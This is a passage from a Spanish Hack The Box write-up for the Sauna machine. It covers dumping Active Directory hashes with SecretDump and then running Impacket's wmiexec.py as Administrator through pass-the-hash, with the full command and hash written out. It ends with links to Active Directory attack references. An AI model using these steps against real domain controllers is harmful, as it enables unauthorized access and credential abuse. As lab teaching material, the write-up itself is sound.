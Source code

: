 ![secretdump](/assets/htb/03_sauna/11_secretdump.png)
_Uso de la herramienta SecretDump para extraer hashes del AD_

### Pass The Hash

Teniendo los **hashes** de los usuarios, tomamos el del **administrator** y se hace un **Pass The Hash**, por lo cual, usando el `wmiexec.py` de **Impacket** y pasamos los parámetros y el hash del administrador, esto nos permite ejecutar comandos e impersonar a dicho usuario: 

```console
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py EGOTISTICAL-BANK.LOCAL/administrator@10.10.10.175  -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9df
```
![Pass The Hash](/assets/htb/03_sauna/12_pass_the_hash.png)
_Impersonación del usuario Administrator con Pass The Hash_

De esta forma, se logra la elevación de privilegios por medio de diferetes configuraciones inseguras en el **Controlador de Dominio**. 

## Referencias

1. Funcionamiento de Kerberos y algunos de sus ataques: 
    - <https://www.tarlogic.com/blog/como-funciona-kerberos/>
    - <https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a>
    - Leer el blog, tiene muy buenas publicaciones. 
2. Recopilación de distintas herramientas y ataques para Directorio Activo:
    - <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md> 
3. WriteUP de una maquina en la que se ataca un directorio activo:
    - <https://snowscan.io/htb-writeup-sizzle/#>
4.  Lectura interesante sobre el abuso de privilegios y acls en directorios activos:
    - <https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces>
